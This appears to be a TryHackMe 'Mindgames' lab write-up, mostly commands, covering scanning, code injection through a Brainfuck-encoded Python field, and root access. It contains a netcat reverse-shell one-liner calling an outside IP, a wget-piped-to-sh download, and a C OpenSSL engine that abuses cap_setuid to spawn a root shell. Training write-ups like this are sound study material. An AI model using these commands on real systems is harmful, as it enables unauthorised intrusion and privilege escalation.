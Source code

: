 # Mindgames

**Room Link:** [https://tryhackme.com/room/mindgames](https://tryhackme.com/room/mindgames)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

Nothing really found, the pages listed are all broken links

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

[https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Encode**

```
__import__("os").system("ls -la")
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**&#x20;

```
nc -lvnp 4242
```

**Encode**

```
__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.231.107 4242 >/tmp/f")
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```





## Privilege Escalation

**Exploit:** [https://chaudhary1337.github.io/p/how-to-openssl-cap\_setuid-ep-privesc-exploit/](https://chaudhary1337.github.io/p/how-to-openssl-cap\_setuid-ep-privesc-exploit/)



We found openssl has cap\_setuid+ep in Linpeas

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can also run the below command to validate

**Victim**

```
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**openssl-exploit-engine.c**

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN() 
```

**Kali**

```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/openssl-exploit-engine.so
openssl req -engine ./openssl-exploit-engine.so
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>













